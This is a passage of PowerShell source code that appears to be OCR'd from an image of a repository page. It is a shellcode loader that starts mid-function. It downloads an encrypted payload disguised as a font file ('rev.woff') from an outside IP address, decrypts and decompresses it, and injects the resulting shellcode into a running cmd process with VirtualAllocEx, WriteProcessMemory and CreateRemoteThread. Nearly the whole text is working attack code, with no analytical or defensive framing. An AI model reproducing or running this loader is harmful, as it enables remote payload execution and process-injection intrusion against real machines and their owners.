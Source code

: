 ```
    catch 
    {
        Write-Error "Decryption failed: $_"
    }
    finally 
    {
        if ($cryptoStream) { $cryptoStream.Dispose() }
        if ($memoryStream) { $memoryStream.Dispose() }
        if ($decryptor) { $decryptor.Dispose() }
        if ($aesAlg) { $aesAlg.Dispose() }
    }
}


# Download encrypted and compressed data
$encrypted = (New-Object System.Net.WebClient).DownloadData("http://192.168.7.130/rev.woff?x=1279")
if (-not $encrypted) { Exit }

# First decrypt the data
$compressed = Decrypt -FullData $encrypted

# Then decompress the data
$shellcode = Decompress -Data $compressed -CompressionAlgorithm 'deflate9'
$size = [System.UIntPtr]::new($shellcode.Length)

# Get the target process
$targetProcess = Get-Process -Name cmd | Select-Object -First 1
$processId = $targetProcess.Id

# Open target process
$process = [Win32]::OpenProcess(0x001FFFFF, $false, $processId)

# Allocate memory in the target process
$memAddr = [Win32]::VirtualAllocEx($process, [System.IntPtr]::Zero, $size, 0x3000, 0x40)

# Write the shellcode to allocated memory
$writtenBytes = [System.UIntPtr]::Zero
[Win32]::WriteProcessMemory($process, $memAddr, $shellcode, [uint32]$size.ToUInt32(), [ref]$writtenBytes)

# Execute the shellcode
$threadID = [System.IntPtr]::Zero
[Win32]::CreateRemoteThread($process, [System.IntPtr]::Zero, 0, $memAddr, [System.IntPtr]::Zero, 0, [ref]$threadID)

Write-Output "Injection complete."

$PID

```
